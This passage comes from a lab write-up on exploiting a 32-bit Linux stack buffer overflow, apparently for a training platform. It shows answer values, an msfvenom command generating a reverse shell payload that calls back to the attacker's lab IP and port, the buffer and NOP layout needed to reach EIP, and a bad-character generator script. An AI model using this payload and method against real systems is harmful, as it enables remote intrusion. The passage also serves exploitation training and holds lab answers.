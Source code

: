 ```bash
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
	0xfffdc000 0xffffe000    0x22000        0x0 [stack]	# <--- Stack Space Value
```

**Answer:** 0x22000

4) Read the file "/root/flag.txt" and submit the content as the answer.

Now, we must apply our reverse shell payload to obtain access to the root user. To do so, we will be using Metasploit to create our payload and calculate it's size before creating our clean reverse shell payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp -ax86 LHOST=10.10.16.33 LPORT=8888 -f c
```

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
...
```

Generating our payload, we see that the size is 68 bytes. Knowing this, we can build what we will be sending to the program

As a precaution, we should try to take a larger range if the shellcode increases due to later specifications. Often it can be useful to insert some **no operation instruction (NOPS)** before our shellcode begins so that it can be executed cleanly. 

Let us briefly summarize what we need for this:

- We need a total of 2064 bytes to get to the EIP
- Here, we can use an additional 100 bytes of NOPS
- 150 bytes for our shellcode.

```
   Buffer = "\x55" * (2064 - 100 - 150 - 4) = 1810
   NOPS = "\x90" * 100
   Shellcode = "\x44" * 150
   EIP = "\x66" * 4
```

Now we have to identify bad characters for running the program correctly. To generate our bad chars payload, we will be using a simple Python script that is going to help us do it

```python
#!/usr/share/env python3

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')

print()
```

As a result of our Python script, we have our pattern of bad characters created, excluding the null byte which is by default a bad character
